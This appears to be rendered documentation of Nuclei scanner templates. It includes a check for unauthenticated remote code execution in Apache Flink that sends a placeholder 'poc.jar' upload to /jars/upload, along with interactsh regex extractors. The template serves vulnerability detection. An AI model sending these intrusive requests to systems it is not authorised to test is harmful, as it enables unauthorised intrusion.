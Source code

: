 **Type - regex**

- part - interactsh_request
- regex
  1. ([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+

### Extractors

**Type - regex**

- part - interactsh_request
- group - 1
- regex
  1. ([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+

---

# Apache Flink - Remote Code Execution

## Description

- Apache Flink
- severity - critical
- tags - apache,flink,rce,intrusive,unauth

## Requests

### Step - 1

```
POST /jars/upload HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data;boundary=8ce4b16b22b58894aa86c421e8759df3

--8ce4b16b22b58894aa86c421e8759df3
Content-Disposition: form-data; name="jarfile";filename="poc.jar"
Content-Type:application/octet-stream

  {{randstr}}
--8ce4b16b22b58894aa86c421e8759df3--

```

### Matchers

**Type - word**

- words
  1. application/json
- part - header
- condition - and
